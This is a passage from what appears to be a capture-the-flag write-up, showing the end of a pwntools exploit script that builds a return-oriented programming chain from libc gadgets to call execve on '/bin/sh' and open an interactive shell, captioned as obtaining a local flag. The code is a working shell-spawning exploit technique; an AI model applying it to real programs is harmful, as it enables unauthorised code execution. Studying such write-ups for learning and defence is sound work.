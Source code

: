 ```python
p.send(payload) # overwrites reg[1]

pause()

# 0x000000000002a3e5 : pop rdi ; ret
# 0x000000000002be51 : pop rsi ; ret
# 0x00000000000904a9 : pop rdx ; pop rbx ; ret

pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbx = libc.address + 0x00000000000904a9
binsh = next(libc.search(b'/bin/sh'))

payload = p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(libc.sym['execve'])
p.send(payload)


p.interactive()
p.close()
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>local flag :')</p></figcaption></figure>
